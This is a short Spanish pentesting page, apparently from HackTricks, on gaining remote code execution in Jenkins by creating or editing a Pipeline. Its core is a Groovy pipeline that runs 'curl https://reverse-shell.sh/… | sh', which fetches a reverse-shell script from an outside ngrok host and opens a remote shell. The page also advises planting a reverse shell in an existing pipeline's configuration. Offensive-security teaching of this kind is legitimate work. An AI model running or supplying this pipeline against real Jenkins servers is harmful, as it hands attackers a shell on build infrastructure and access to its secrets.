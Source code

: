 # Jenkins RCE Creando/Modificando Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Creando un nuevo Pipeline

En "Nuevo Elemento" (accesible en `/view/all/newJob`) selecciona **Pipeline:**

![](<../../images/image (235).png>)

En la **sección Pipeline** escribe el **reverse shell**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Finalmente, haz clic en **Guardar** y **Construir ahora** y el pipeline se ejecutará:

![](<../../images/image (228).png>)

## Modificando un Pipeline

Si puedes acceder al archivo de configuración de algún pipeline configurado, podrías **modificarlo añadiendo tu reverse shell** y luego ejecutarlo o esperar a que se ejecute.

{{#include ../../banners/hacktricks-training.md}}
